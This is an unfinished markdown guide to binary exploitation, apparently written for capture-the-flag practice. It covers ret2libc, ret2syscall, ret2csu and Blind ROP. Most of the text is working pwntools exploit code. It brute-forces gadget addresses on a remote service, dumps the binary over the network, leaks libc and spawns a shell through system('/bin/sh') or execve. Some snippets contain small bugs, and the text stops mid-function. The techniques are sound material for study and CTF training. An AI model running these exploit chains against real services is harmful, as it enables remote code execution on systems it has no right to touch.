 
### in progress


# ROP
# how to find Gadgets (Ropper)

<details>
    <summary>Ropper</summary>
        <div>


read the docs!
https://github.com/sashs/Ropper

Ropper is a tool that can display information about binary files in different file formats and can search for gadgets to build rop chains for different architectures (x86/X86_64, ARM/ARM64, MIPS/MIPS64, PowerPC/PowerPC64, SPARC64).

most usefull commands imo.

`(ropper) file vuln_binary` loads the specified binary into cache and analyze it than cleans up double gadgets. \
`(ropper) search /1/ pop r??` /1/ = search for gadgets with max 1 instruction + ret  \
? means non specific char so this will search for `pop rax`&`pop rdi`&`pop rsi` and so on \
`(ropper) semantic eax==1 !ebx` searches for a gadget that set eax to 1 and does not clobber ebx

</div>
</details>

		
# find Strings in an ELF	
<details>
    <summary>strings</summary>
        <div>
		
searching manually   \
`strings -t x -a /path/to/binary | grep "string you searching"`

</div>
</details>
		
<details>
    <summary>pwntools</summary>
        <div>

in python script
```
binary = ELF('/path/to/binary')
stringaddr = next(binary.search(b'string you searching'))
```
</div>
</details>

# how to pivote the Stack
in progress
# ret2techniques
	
<details>
    <summary>ret2libc (dynamically linked ELF)</summary>
        <div>

# ret2libc (dynamically linked ELF)
to use ret2libc we need to know two things
	
1. the exact libc version the ELF uses
2. the base addr of libc in the process
		

to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
(we also need this for finding the base of libc in the process)

since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)
```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
payload += p64(puts@GOT)		#addr puts@GOT
payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
```

this payload will print the libc addr of puts() in the current process.
puts_leak = `leaked addr here`

ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.
we will use a libc database like https://libc.blukat.me/ to find the exact version
libc.blukat will find the libc based of the last 3 nibbles of the leaked addr since these will always be the same 
		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/libc_blukat.png">

usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
use `vmmap` to find the libc base

```
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000402000 0x0000000000403000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000403000 0x0000000000404000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000405000 0x0000000000426000 0x0000000000000000 rw- [heap]
0x00007ffff7dbc000 0x00007ffff7de1000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7de1000 0x00007ffff7f59000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f59000 0x00007ffff7fa3000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa3000 0x00007ffff7fa4000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa4000 0x00007ffff7fa7000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa7000 0x00007ffff7faa000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7faa000 0x00007ffff7fb0000 0x0000000000000000 rw- 
0x00007ffff7fc9000 0x00007ffff7fcd000 0x0000000000000000 r-- [vvar]
0x00007ffff7fcd000 0x00007ffff7fcf000 0x0000000000000000 r-x [vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```

know_libc_base = `libc base here`		

offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
libc_base = puts_leak - offset

ok we now know the libc version and the exact libc_base inside the current process.
now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

1. setup the argument for system(pointer_binsh) 
2. call the libc function system()

```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
payload += p64(system)			#call the libc system function
```

</div>
</details>

<details>
    <summary>ret2system (statically linked ELF)</summary>
        <div>


# ret2system (statically linked ELF)
`syscall(rax,rdi,rsi,rdx)`	
we want to call `execve(pointer_binsh,0,0)` to spawn a shell

so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
1. find the syscall number for execve
2. find a gadget that can write to a pointer like `mov [rdi],rdx`
3. write b'/bin/sh\x00' to a writable addr.
4. setup the registers and than syscall

syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit	`
we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`
we need a gadget that can write to a pointer to write `/bin/sh\x00` string somewhere
we can find such a gadget by using `ropper`

```
ropper /1/ mov [r??],r??
```		
i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.


```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rax)			#set rax to 0x3b
payload += p64(0x3b)
payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
payload += p64(.bss)			#addr where we want to write to
payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
payload += p64(pop_rsi)			#set rsi to 0
payload += p64(0x00)
payload += p64(pop_rdx)			#set rdx to 0
payload += p64(0x00)
payload += p64(syscall)				
```


</div>
</details>

<details>
    <summary>ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)</summary>
        <div>
		
# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)

the `__libc_csu_init` function is responsible to initialize libc files.
in this function there are some interesting gadgets we can use.

first gadget let us controll some registers with pop

POPGADGET:
his will let us controllrbx,rbp,r12,r13,r14,r15
```
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```

CALLGADGET:
this will let us controll rdx,rsi and edi but we need to meet some conditions 
```         
__libc_csu_init+64	MOV        RDX,R14
__libc_csu_init+67 	MOV        RSI,R13
__libc_csu_init+70 	MOV        EDI,R12D
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
__libc_csu_init+86	ADD        RSP,0x8
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
__libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```


there ase some constrains in the caller gadget 
1.
we want to pass the JNE and dont take it.
```
rbx = 0x00 set to 0 since it will be incremented later
rbp = set to 1 so when compared to the incremented rbx 
```

```
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
       	 	
```
2.
we want to set r15 = to a valide function pointer rbx will be 0x00
```
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
```


```
putsgot = elf.got['puts']          
putsplt = elf.plt['puts']
pop_rdi = 0x00000000004011f3
pop_rsi_r15 = 0x00000000004011f1
ret = 0x4004e6

def ret2csu(call,rdi,rsi,rdx):
    payload = p64(0x4011ea)         # first call popper gadget

    payload += p64(0x00)            # pop rbx - set to 0 since it will be incremented later
    payload += p64(0x01)            # pop rbp - set to 1 so when compared to the incremented rbx 
    payload += p64(0x400000)       # pop r12 #edi only 4 bytes controll
    payload += p64(rsi)            # pop r13 #rsi
    payload += p64(rdx)            # pop r14 #rdx
    payload += p64(putsgot)            # pop r15 

    payload += p64(0x4011d0)        # 2nd call caller gadget

        #__libc_csu_init+64     MOV        RDX,R14
        #__libc_csu_init+67     MOV        RSI,R13
        #__libc_csu_init+70     MOV        EDI,R12D

    payload += p64(0x00)            # add rsp,0x8 padding cause __libc_csu_init+86  ADD RSP,0x8 


        #__libc_csu_init+90     POP        RBX
        #__libc_csu_init+91     POP        RBP
        #__libc_csu_init+92     POP        R12
        #__libc_csu_init+94     POP        R13
        #__libc_csu_init+96     POP        R14
        #__libc_csu_init+98     POP        R15
        #__libc_csu_init+100    RET

    payload += p64(0x00)            # rbx
    payload += p64(0x00)            # rbp
    payload += p64(0x00)            # r12
    payload += p64(0x00)            # r13
    payload += p64(0x00)            # r14
    payload += p64(0x00)            # r15

        #__libc_csu_init+100    RET

    payload += p64(pop_rdi)        
    payload += p64(rdi)             # update rdi with correct unconstrained content
    payload += p64(pop_rsi_r15)     
    payload += p64(rsi)             # update rsi with correct unconstrained content
    payload += p64(0x00)

        #we now have this registers under controll rdi,rsi,rdx,rbx,rbp,r12,r13,r14,r15

    payload += p64(call)            # actual wanted function call
    return payload

    rop = b'A'*16
    rop += ret2csu(putsplt, 0x7ffff7f735aa, 0x00, 0x00) # call(rdi,rsi,rdx)

```

For de-randomizing libc, we can use &GOT_TABLE, coupled with some read(), write() or send(), recv() (ie: usually available in CTF challenges)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">
		
</div>
</details>

# Blind Return Oriented Programming






<details>
    <summary>BROP (dont have the binary // PIE off // puts() in binary)</summary>
        <div>

# BROP (dont have the binary // PIE off // puts() in binary)
		
Steps of Exploitation:

Puts/Printf() when fd is 0,1,2 stdin,stdout,stderror
1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find puts@plt
4. leak the binary


### find loop-gadget
the example binary prints `Are you blind my friend?\n` and than asks us for input
so we know that when we find the right addr there should be a `Are you blind my friend?\n` printed back to us and we should be able to input again


```
def find_loop_gadget(i):
    
    r = remote(ip, port,timeout=1)
    
    addr_guess = i + 0x400200                         #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers
        
    payload = b'A'*88                                 #pad
    payload += p64(addr_guess)                        #rip

    r.readuntil(b'Are you blind my friend?\n')        #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)


    try:
        check = r.recvline()                          #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:    #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr
            return int(addr_guess)              
        else:
            print(check)                              #if we recv something that is not 'Are you blind my friend?\n' we print to check what it was
            print(r.recvline())                       #than try to read more that should throw an EOF error if not inspect further
            r.close()
    except:
        print(sys.exc_info()[0])                      #prints the error
        print(i)                                      #prints the iterator
        r.close()


for i in range(0x2000):                               #loop  0x400200 -> 0x402200   
    loop = find_loop_gadget(i)                  
    if loop:                            
        print(f'found loop_gadget @ {hex(loop)}')
        break                                         #remove this break if you want to find more potential loop addr.
```



### find brop-gadget

ok we now have a loop-gadget now we need to find a brop-gadget (popper gadget from ret2csu)
6 pops in a row are pretty uncommon so its not hard to indentify it.


```
def find_brop_gadget(i):


    r = remote(ip, port,timeout=1)

    addr_guess = i + 0x400200                          #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                                  #pad
    payload += p64(addr_guess)                         #rip 
    payload += p64(0x00)                               #setup stack
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(loop)                               #loop back to main

    r.recvuntil(b'Are you blind my friend?\n')         #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)

    try:
        check = r.recvline()                           #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:     #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr since our 6 pops goes throu
                                                       #2nd check if we are on the right gadget this time we want a crash
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                      #pad
                payload += p64(addr_guess)             #rip
                payload += p64(0x00)                   #setup stack
                payload += p64(0x00)    
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)                   # one extra 0x00 to crash. ret to 0x00 is allways a crash  
                payload += p64(loop)                   # if it still prints 'Are you blind my friend?\n' its the wrong guess addr
        
                p.recvuntil(b'Are you blind my friend?\n')     #read the first (intendet) "Are you blind my friend?\n" 
                p.send(payload)                 
                
                try:
                    check2 = p.recvline()              #try to read a line if we can read a line we are on the wrong addr guess #we should crash here
                    if check2:                         #if we can recv something addr guess are wrong
                    print('not passed check2')
                    p.close()
                    r.close()

                except:                                #we want a crash so if we crash were good
                    r.close()
                    p.close()
                    return addr_guess

        else:                                          #if we can recv something on the initial check but its not "Are you blind my friend?\n" or we hang
                r.close()                              #close connection
    except:                                            #if we crash during first payload wrong guess addr
        print(sys.exc_info()[0])
        r.close()


for i in range(0x2000):                                #loop  0x400200 -> 0x402200 
    brop = find_brop_gadget(i)
    if brop:
        print(f'found brop_gadget @ {hex(brop)}')
        break                                          #remove this break if you want to find more potential brop-gadget addr.
    

pop_rdi = int(brop) + 0x9                              #we need this later 
pop_rsi_r15 = int(brop) + 0x7                          #we need this later

```
### find puts-gadget



```
def find_puts(i):                        #puts@plt


    r = remote(ip, port,timeout=1)
                                                #iterate in steps of 0x10
    addr_guess = i*0x10 + 0x400200              #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers 



            #this is the plt layout we want to find
            # 0x0000000000400560  puts@plt
            # 0x0000000000400570  setbuf@plt
            # 0x0000000000400580  read@plt
            # 0x0000000000400590  __libc_start_main@plt
            # 0x00000000004005a0  strcmp@plt


    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #first argument for # int puts( char const * string ); puts(rdi) 
    payload += p64(0x400000)                    #points to 0x400000 which should print out 'ELF'
    payload += p64(addr_guess)                  #the addr guess for puts@plt

    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    


    try:
        check = r.recvline()                    #trys to recv if cant recv anything EOF error
        if b'ELF' in check:                     #if the str 'ELF' is in the check we found a potential puts@plt addr.
            r.close()
            return addr_guess
        else:
            print(check)                        #debugging if something weard was printed
    except:
        print(sys.exc_info()[0])                #printes the error
        print(i)                                #prints the iterator
        r.close()

for i in range(0x50):                           # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
    puts = find_puts(i)
    if puts:
        print(f'found puts @ {hex(puts)}')
        break                                   #remove this break if you want to find more potential puts@plt addr.
```

### leak the process with puts()
```
def leak_binary_puts(i,j):


    r = remote(ip, port,timeout=1)
    
    x = i + j

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(x)
    payload += p64(puts)

    r.recvline()                                         #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)



    try:
        check = r.recvline()                            #trys to recv the leak if nothin is recv inc offset by 1 and continue
        if check:
            if check.hex()[:-2] == '':                  
                file.append(b'\x00')
                r.close()
                return int(offset) + 1

            else:
                file.append(check[:-1])                 #append leak without \n
                last_len = int(len(check)-1)            #calculate len of leaked bytes
                r.close()
                return int(offset) + int(last_len)      #increase the offset by leaked num of bytes     
            
        else:
            r.close()
    except:                                             #inc offset by 1 and continue
        print(sys.exc_info()[0])
        r.close()
        return int(offset + 1)

file = []
last_len = 0
offset = 0

for i in range(0xb00):                      
    offset = leak_binary_puts(offset,0x400000)
    print(offset)
    print(f'{hex(i)}')


string1 = b''.join(file)

with open('binary_dump', 'wb') as out:
    out.write(string1)
    out.close()

```
find the libc verion with https://libc.blukat.me/

```           

def leak(i):        #simple leak function to find all GOT entrys this will print the addr and content of 0x601000 -> 0x601080 in steps of 0x8


    r = remote(ip, port,timeout=1)
    

    payload = b'A'*88                                                   
    payload += p64(pop_rdi)
    payload += p64(i)
    payload += p64(puts)

    r.recvline()                                        #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)

    leak = unpack(r.recvline()[:-1],'all')
    return leak


libc = ELF(/path/to/libc)                               #we want to guess a libc and if we guess right it should have the same last 3 nibbles 

puts_check = hex(libc.symbols['puts'])[-2::]

for i in range(0x10):                                   #loop 0x601000 -> 0x601080
    check = leak(0x601000+i*8)                          #GOT usually starts somewhere here 0x601000
    print(f'{hex(0x601000+i*8)} : {hex(check)}')
    if hex(check)[12:] == puts_check:
        putsgot = (i*8+0x601000)
        print(f'puts_got @ {hex(putsgot)}')
        break


```

and bringing it all together we can pop a shell

```
def pwn():

    #context.log_level = 'debug'

    r = remote(ip, port,timeout=1) 

    pop_rdi = int(brop) + 0x9
    ret = int(brop) + 10

    payload = b'A'*88                               #leak libc_base
    payload += p64(pop_rdi)
    payload += p64(putsgot)
    payload += p64(puts)
    payload += p64(loop)                            #loop back to main
 

    r.recvuntill('Are you blind my friend?\n')      #read the 1st (intendet) "Are you blind my friend?\n"
    r.send(payload)


    leak = unpack(r.recvline()[:-1],'all')          #leak puts
    print(hex(leak))
    libc.address = leak - libc.symbols['puts']      #sets libc base

    print(hex(libc.address))

    r.recvuntil('Are you blind my friend?\n')       #read the (loop) "Are you blind my friend?\n"

    binsh = next(libc.search(b'/bin/sh\x00'))       #ret2libc
    system = libc.symbols['system']

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(binsh)
    payload += p64(system)

    r.send(payload)

    inter()
```



</div>
</details>


<details>
    <summary>BROP (dont have the binary // PIE off // puts() not in binary)</summary>
        <div>

# BROP (dont have the binary // PIE off // puts() not in binary)		
		
1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find strcmp@PLT (strcmp sets rdx)
4. find write@PLT (let us write to any fd)
5. leak the binary

### find loop-gadget
the example binary prints `Are you blind my friend?\n` and than asks us for input
so we know that when we find the right addr there should be a `Are you blind my friend?\n` printed back to us and we should be able to input again


```
def find_loop_gadget(i):
    
    r = remote(ip, port,timeout=1)
    
    addr_guess = i + 0x400200                         #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers
        
    payload = b'A'*88                                 #pad
    payload += p64(addr_guess)                        #rip

    r.readuntil(b'Are you blind my friend?\n')        #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)


    try:
        check = r.recvline()                          #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:    #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr
            return int(addr_guess)              
        else:
            print(check)                              #if we recv something that is not 'Are you blind my friend?\n' we print to check what it was
            print(r.recvline())                       #than try to read more that should throw an EOF error if not inspect further
            r.close()
    except:
        print(sys.exc_info()[0])                      #prints the error
        print(i)                                      #prints the iterator
        r.close()


for i in range(0x2000):                               #loop  0x400200 -> 0x402200   
    loop = find_loop_gadget(i)                  
    if loop:                            
        print(f'found loop_gadget @ {hex(loop)}')
        break                                         #remove this break if you want to find more potential loop addr.
```



### find brop-gadget

ok we now have a loop-gadget now we need to find a brop-gadget (popper gadget from ret2csu)
6 pops in a row are pretty uncommon so its not hard to indentify it.


```
def find_brop_gadget(i):


    r = remote(ip, port,timeout=1)

    addr_guess = i + 0x400200                          #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                                  #pad
    payload += p64(addr_guess)                         #rip 
    payload += p64(0x00)                               #setup stack
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(loop)                               #loop back to main

    r.recvuntil(b'Are you blind my friend?\n')         #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)

    try:
        check = r.recvline()                           #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:     #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr since our 6 pops goes throu
                                                       #2nd check if we are on the right gadget this time we want a crash
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                      #pad
                payload += p64(addr_guess)             #rip
                payload += p64(0x00)                   #setup stack
                payload += p64(0x00)    
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)                   # one extra 0x00 to crash. ret to 0x00 is allways a crash  
                payload += p64(loop)                   # if it still prints 'Are you blind my friend?\n' its the wrong guess addr
        
                p.recvuntil(b'Are you blind my friend?\n')     #read the first (intendet) "Are you blind my friend?\n" 
                p.send(payload)                 
                
                try:
                    check2 = p.recvline()              #try to read a line if we can read a line we are on the wrong addr guess #we should crash here
                    if check2:                         #if we can recv something addr guess are wrong
                    print('not passed check2')
                    p.close()
                    r.close()

                except:                                #we want a crash so if we crash were good
                    r.close()
                    p.close()
                    return addr_guess

        else:                                          #if we can recv something on the initial check but its not "Are you blind my friend?\n" or we hang
                r.close()                              #close connection
    except:                                            #if we crash during first payload wrong guess addr
        print(sys.exc_info()[0])
        r.close()


for i in range(0x2000):                                #loop  0x400200 -> 0x402200 
    brop = find_brop_gadget(i)
    if brop:
        print(f'found brop_gadget @ {hex(brop)}')
        break                                          #remove this break if you want to find more potential brop-gadget addr.
    

pop_rdi = int(brop) + 0x9                              #we need this later 
pop_rsi_r15 = int(brop) + 0x7                          #we need this later

```

```
def find_strcmp(i):
    
    r = remote(ip, port,timeout=1)
                                                #iterate in steps of 0x10 same as finding puts
    addr_guess = i*0x10 + 0x400200                    #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #pop 1st argument for # int strcmp (const char* str1, const char* str2); strcmp(rdi,rsi)
    payload += p64(0x400000)                    #holds valide pointer to 'ELF'          GOOD
    payload += p64(pop_rsi_r15)                 #pop 2nd argument   
    payload += p64(0x400000)                    #holds valide pointer to 'ELF'          GOOD
    payload += p64(0x00)                        #junk to fill r15
    payload += p64(addr_guess)                  #the addr guess for strcmp@plt
    payload += p64(loop)                        #loop back to main if check for GOOD:GOOD pointers work 
    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    

    try:
        check = r.recvline()                                            #trys to recv if cant recv anything EOF error
        if b'Are you blind my friend?\n' in check:                      #if we can find 'Are you blind my friend?\n' we passed check1 
            r.close()
            print('\n1st check passed good:good')
            
            print(f'2nd check for {hex(addr_guess)} good:bad')
            p = remote(ip,port,timeout=1)

            payload = b'A'*88                                           #same as above but with GOOD:BAD pointers that should crash
            payload += p64(pop_rdi) 
            payload += p64(0x400000)                                    #holds valide pointer to 'ELF'          GOOD
            payload += p64(pop_rsi_r15)
            payload += p64(0x0)                                         #holds invalide pointer to 0x00         BAD
            payload += p64(0x0)
            payload += p64(addr_guess)
            payload += p64(loop)        
            p.readuntil('Are you blind my friend?\n')
            p.send(payload)
                
            try:
                check2 = p.recvline()

                if check2: 
                    print('not passed check2')
                    p.close()
                else:
                    print('not passed check2')
                    p.close()

            except:
                r.close()
                p.close()
                print(f'3nd check for {hex(addr_guess)} bad:good')
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                                       #same as above but with BAD:GOOD pointers that should crash    
                payload += p64(pop_rdi)
                payload += p64(0x0)                                     #holds invalide pointer to 0x00         BAD
                payload += p64(pop_rsi_r15)
                payload += p64(0x400000)                                #holds valide pointer to 'ELF'          GOOD
                payload += p64(0x0)
                payload += p64(addr_guess)
                payload += p64(loop)         
                p.readuntil('Are you blind my friend?\n')
                p.send(payload)

                try:
                    check3 = p.recvline()

                    if check3: 
                        print('not passed check3')
                        p.close()
                    else:
                        print('not passed check3')
                        p.close()

                except:
                    p.close()
                    print(f'4rd check for {hex(addr_guess)} bad:bad')
                    p = remote(ip,port,timeout=1)

                    payload = b'A'*88                                   #same as above but with BAD:BAD pointers that should crash
                    payload += p64(pop_rdi) 
                    payload += p64(0x0)                                 #holds invalide pointer to 0x00         BAD
                    payload += p64(pop_rsi_r15)
                    payload += p64(0x0)                                 #holds invalide pointer to 0x00         BAD
                    payload += p64(0x0)             
                    payload += p64(addr_guess)
                    payload += p64(loop)         
                    p.readuntil('Are you blind my friend?\n')
                    p.send(payload)
                    try:
                        check4 = p.recvline()

                        if check4: 
                            print('not passed check4')
                            p.close()

                        else:
                            print('not passed check4')
                            p.close()


                    except:
                        p.close()
                        print(sys.exc_info()[0])
                        return addr_guess                               #if all checks were good we return the guess_addr

        else:
            r.close()
    except:
        print(sys.exc_info()[0])
        print(hex(addr_guess))
        r.close()


for i in range(0x50):                                                   # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
        strcmp = find_strcmp(i)
        if strcmp:
            print(f'found strcmp @ {hex(strcmp)}')
            break                                                       #remove this break if you want to find more potential strcmp@plt addr.

 ```

 ```
def find_write()                                #ssize_t write(int fd, const void *buf, size_t count); write(rdi,rsi,rdx)

    r = remote(ip, port,timeout=1)  


    pop_rdi = int(brop) + 0x9                    
    pop_rsi_r15 = int(brop) + 0x7


                                                #iterate in steps of 0x10
    addr_guess = i*0x10 + 0x400200              #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers 

    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #int strcmp (const char* str1, const char* str2) strcmp(rdi,rsi)
    payload += p64(0x400000)                    #rdi points to 0x400000 which should hold 'ELF'
    payload += p64(pop_rsi_r15)
    payload += p64(0x400000)                    #rsi points to 0x400000 which should hold 'ELF'
    payload += p64(0x00)                        #junk r15
    payload += p64(strcmp)                      #sets rdx to != 0x00
    payload += p64(pop_rdi)
    payload += p64(0x01)                        #fd for write usually 0x01 but when we connect throu a socket maybe differ
    payload += p64(addr_guess)
                                                


    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    


    try:
        check = r.recvline()                    #trys to recv if cant recv anything EOF error
        if b'ELF' in check:                     #if the str 'ELF' is in the check we found a potential write@plt addr.
            r.close()
            return addr_guess
        else:
            print(check)                        #debugging if something weard was printed
    except:
        print(sys.exc_info()[0])                #printes the error
        print(i)                                #prints the iterator
        r.close()

for i in range(0x50):                           # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
    write = find_write(i)
    if write:
        print(f'found write @ {hex(write)}')
        break                                   #remove this break if you want to find more potential write@plt addr.
 ```

 
### leak the process with write()
		
```
def leak_binary_write(i,j):

    pop_rdi = int(brop) + 0x9                    
    pop_rsi_r15 = int(brop) + 0x7

    r = remote(ip, port,timeout=1)
    
    x = i + j

    payload = b'A'*88                                   #pad
    payload += p64(pop_rdi)                             #int strcmp (const char* str1, const char* str2) strcmp(rdi,rsi)
    payload += p64(0x400000)                            #rdi points to 0x400000 which should hold '0x00010102464c457f'
    payload += p64(pop_rsi_r15)
    payload += p64(0x400001)                            #rsi points to 0x400001 which should hold '0x0000010102464c45'
    payload += p64(0x00)                                #junk r15
    payload += p64(strcmp)                              #sets rdx to 0x7f

    payload += p64(pop_rdi)
    payload += p64(0x01)                                #fd for write usually 0x01 but when we connect throu a socket maybe differ
    payload += p64(pop_rsi_r15)
    payload += p64(x)                                   #addr to leak
    payload += p64(0x00)                                #junk r15   
    payload += p64(addr_guess)                          #ssize_t write(int fd, const void *buf, size_t count); write(rdi,rsi,rdx)

    r.recvline()                                        #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)



    try:
        check = r.recvline()                            
        if check:
            file.append(check[:-1])
